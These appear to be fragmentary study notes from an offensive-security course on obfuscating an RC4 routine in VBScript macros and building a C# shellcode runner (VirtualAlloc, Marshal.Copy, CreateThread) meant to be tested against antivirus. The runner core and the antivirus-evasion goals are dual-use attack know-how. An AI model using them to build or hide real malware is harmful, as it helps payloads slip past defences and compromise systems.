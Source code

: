 ### Key Points:

- **Obfuscation**: The primary goal is to make the decryption logic difficult to reverse-engineer. The names and flow are obfuscated.
- **Complexity**: Adding layers of complexity can slow down the analysis process.
- **Testing**: Even with obfuscation, ensure that the code functions correctly by testing it thoroughly in a controlled environment.

This obfuscated RC4 function can make your VBScript more resilient against reverse engineering and detection.

## To Do:
1. 6.8.2 - Update the PowerShell shellcode runner to 64-bit.
2. rc4 encryption and macro obfuscation
3. test those against AV
### Shellcode Runner Again

- Main body consists of the following
```csharp
			int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
```
- `btye[] buf = new byte[###] {...}`
- VirtualAlloc is a Win32 function call and is imported into C# using 

### Using CsWin32 source generator

- Create project in VS Studio Code (C# Console or C# .Net Console app)
- Project needs to be sdk type
- Search for cswin32 and install

 ![](Images/InstallCsWin32.png)
- need to add addition nuget System.Memory package as well
```ps1

dotnet add package System.Memory

```
- or using VS Code

![](Images/NuGetSystemMemory.png)

- create NativeMethods.txt file in project
- Allow unsafe code
